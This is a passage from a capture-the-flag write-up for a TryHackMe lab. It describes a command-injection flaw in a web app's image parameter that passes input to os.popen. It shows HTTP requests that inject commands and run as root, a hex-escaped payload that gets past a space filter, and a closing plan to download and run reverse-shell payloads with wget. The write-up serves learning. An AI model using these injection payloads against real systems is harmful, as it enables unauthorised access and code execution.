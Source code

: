 This time we get the content of the whole etc directory back.

### Hypothesis
I thought that the function implemented can not be os.listdir() as it errors out if we pass the filename.

```py
image = GET['image']              # Getting the user input
os.popen(f'ls {image}').read()    # Displaying the files
```
If this is implemented in this way without user input sanitization, we can inject the terminal commands here.

## Code execution
### Request
```html
GET /photos?image=/etc/passwd;id HTTP/1.1
```
### Response
```html
<pre>
    /etc/passwd
    uid=0(root) gid=0(root) groups=0(root),1(bin),2(daemon),3(sys),4(adm),6(disk),10(wheel),11(floppy),20(dialout),26(tape),27(video)
</pre>
```
And we get the code execution on the box and we are running as root.

But we do have another problem here with spaces. It turned out the spaces are removed before they are passed into the popen function.

### Request
```html
GET /photos?image=/etc/passwd;ls+-la HTTP/1.1
```
### Response
```html
cannot access '/etc/passwd;ls-la': No such file or directory
```

So we have to find a way to bypass this check and I came across a article which makes use of hex representation of spaces to execute shell commands.

### Request Payload
```html
?image=/etc/passwd;CMD=$'\x20ping\x2010.6.31.213';`$CMD`
```

### Listening on our box for ICMP packets
```console
local@local:~/Documents/tryhackme/misguided_ghosts$ sudo tcpdump -i tun0 icmp
tcpdump: verbose output suppressed, use -v or -vv for full protocol decode
listening on tun0, link-type RAW (Raw IP), capture size 262144 bytes
16:04:00.310198 IP 10.10.8.31 > local: ICMP echo request, id 12288, seq 0, length 64
16:04:00.310264 IP local > 10.10.8.31: ICMP echo reply, id 12288, seq 0, length 64
16:04:01.310213 IP 10.10.8.31 > local: ICMP echo request, id 12288, seq 1, length 64
16:04:01.310298 IP local > 10.10.8.31: ICMP echo reply, id 12288, seq 1, length 64
16:04:02.310244 IP 10.10.8.31 > local: ICMP echo request, id 12288, seq 2, length 64
```
And we get the reply. Lets try and get a reverse shell. At first I will host a file called shell.sh on my local box with bunch of reverse shell payloads,download it on the remote box using wget and execute the file on next step.
